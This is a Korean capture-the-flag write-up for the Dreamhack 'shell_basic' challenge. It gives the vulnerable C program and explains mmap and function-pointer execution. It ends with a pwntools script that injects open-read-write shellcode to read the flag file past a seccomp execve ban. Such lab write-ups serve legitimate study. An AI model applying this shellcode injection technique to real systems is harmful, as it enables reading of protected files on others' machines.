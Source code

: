 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 의미는 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 기술 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 셸코드를 실행시킬 수 있는 것이다.

이 문제를 풀기위해서는 문제에서 제시한 플래그 파일을 읽어서 플래그를 획득(출력)해야한다. 
즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
from pwn import* 
# importing pwntools
p = remote('host1.dreamhack.games',10732) 
# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 인자는 각각 호스트와 포트넘버이다.

context.arch = 'amd64' 
#공격 대상 아키텍쳐는 x86-64

path = "/home/shell_basic/flag_name_is_loooooong"
#flag 위치와 이름

code = ''
#셸코드 선언

code += shellcraft.open(path,0 ,0)
#shellcraft를 이용하여 open system call의 셸코드를 사용.

code += shellcraft.read('rax','rsp',0x1000)
#shellcraft를 이용하여 read system call의 셸코드를 사용. 인자는 fd,buffer,count 순이다. 
#fd 인자로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다. 주의해야할 점은 buffer 인자로 (rsp-count)가 아니라 rsp 값을 대입해야한다.

code += shellcraft.write(1,'rsp',0x1000)
#shellcraft를 이용하여 write system call의 셸코드를 사용. 인자는 fd,buffer,count 순이다. 
#인자가 read와 같다.

print(p.recv())
#출력데이터 받아서 출력.

p.send(asm(code))
#작성한 셸코드를 기계어로 변환 후 전송

print(p.recvuntil('}'))
#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
```
